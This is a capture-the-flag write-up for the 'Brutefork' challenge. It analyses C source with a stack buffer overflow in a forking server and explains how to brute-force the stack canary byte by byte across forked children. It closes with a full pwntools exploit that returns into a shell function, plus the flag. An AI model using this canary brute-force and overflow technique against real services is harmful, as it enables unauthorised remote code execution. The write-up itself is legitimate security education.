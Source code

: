 ## Brutefork

### Description

> I locked myself out of my server and it doesn't accept my password anymore :(
>
> Can you restore access please?

### Solution

We are supplied with a binary, its source code and a connection to a server where the binary is running. Having access to the source code will greatly speed up the reversing process, since we don't have to deal with assembly code.

First we are going to read the source code in order to understand the service and find an exploitable vulnerability. Then analyze and exploit the vulnerability to get remote code execution on the server.

To solve this challenge, the following tools were used:

- [Python](https://www.python.org/)

- [pwntools](https://github.com/Gallopsled/pwntools)

#### Analyzing the Source Code

When reading through the source code, the first thing that stands out is that the service implements its own fork server.

```c
// create socket
int sockfd = socket(AF_INET, SOCK_STREAM, 0);

// set address (any) and port (PORT)
struct sockaddr_in addr = {0};
addr.sin_family = AF_INET;
addr.sin_port = htons(PORT);
addr.sin_addr.s_addr = htonl(INADDR_ANY);

// prepare for accepting connections
bind(sockfd, (struct sockaddr *)&addr, sizeof addr);
listen(sockfd, 8);

while (1) {
    // wait for new connection
    int clientfd = accept(sockfd, NULL, NULL);

    // fork: parent waits for next connection, child handles connection
    if (fork() == 0) {
        // in child
        handle();
        return EXIT_SUCCESS;
    }
}
```

This is unusual to see in an exploitation challenge, so probably relevant for the solution.

Apart from that, a handy `shell` function is provided, which unconditionally spawns a shell for us.

```c
void shell(void) {
    execl("/bin/sh", "sh", (char *)NULL);
}
```

Unfortunately, there's no way we can reach this function using the intended control flow, because the password check always returns `false`.

```c
bool check_pass(const char *pass) {
    return false;
}

void handle(void) {
    char buf[100];

    printf("Input password: ");
    read(STDIN_FILENO, buf, 0x100);

    if (check_pass(buf)) {
        printf("Authenticated. Here's your shell:\n");
        shell();
    } else {
        printf("Authentication failed!\n");
    }
}
```

However, looking at the function above we can spot a bug: the password buffer `buf` holds `100` bytes, but we can write up to `0x100 == 256` bytes.

Now that we completely analyzed the source code, we can proceed to exploit the service.

#### Exploiting the Service

So far this looks like a classic stack buffer overflow: we overflow the stack buffer up to the saved return address and overwrite it with the address of the provided `shell` function. When the `handle` function returns, it would "return into" the `shell` function, and spawn a shell.

But as it turns out, the binary was compiled with stack canaries enabled:

```c
// built with:
//   gcc -no-pie -fstack-protector-all -O0 -m32 -ggdb3 -o brutefork brutefork.c
```

With this option, the compiler inserts a stack canary (also called stack cookie or stack protector) between the local variables and the return address, and verifies its integrity before using the stored return address. Currently, the canary is generated randomly on process startup and the same canary is used for all functions.

We conclude that the bug we found is not enough to actually exploit the service, we also have to somehow bypass the stack canary.

This is where the forkserver becomes relevant: when a process forks, the stack canary is preserved! This is actually related to the fact that a single canary is used for all functions: the child process may return from functions which were entered before the fork. For these functions, the canary stored on the stack will inevitably be the canary of the process before the fork. So, in order to be able to successfully verify the integrity of the canary, the child process has to use the same canary.

But how does that help us in bypassing the canary? It's still unknown and initially randomly generated. However, we can bruteforce the first byte of the canary if we connect to the service multiple times to try each possible byte. Afterwards, we repeat the same process on the next byte, until we know the whole canary.

Now that we know how to get the canary, the exploit turns into a classic stack buffer overflow as described above: overwrite the saved return address to return into the `shell` function.


#### Exploit Code

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

context.binary = 'brutefork'


def exploit():
    bytes = [chr(n) for n in range(256)]

    p = log.progress("Leaking canary")
    canary = '\0'

    while len(canary) < 4:
        for b in bytes:
            guess = canary + b

            p.status("%s", ' '.join(enhex(c) for c in guess))
            if try_canary(guess):
                canary = guess
                break
        else:
            log.error("Failed to leak canary")

    p.success("%s", ' '.join(enhex(c) for c in canary))

    r = connection(canary + 'B'*12 + p32(context.binary.symbols.shell))
    sleep(1)
    r.sendline('cat flag')
    log.success("Flag: %s", r.recvline_contains('CSR').strip())


def try_canary(guess):
    with context.local(log_level='ERROR'):
        r = connection(guess)
        ret = r.recvall()
        r.close()
        return ret.strip().endswith('failed!')


def connection(canary):
    r = remote('localhost', 1337)
    r.sendafter('password: ', 'A' * 100 + canary)
    return r


if __name__ == "__main__":
    exploit()
```


### Flag
`CSR{th1s_w0rk5_f0r_ASLR_7oo!!}`


### Creator
Jan-Niklas Sohn



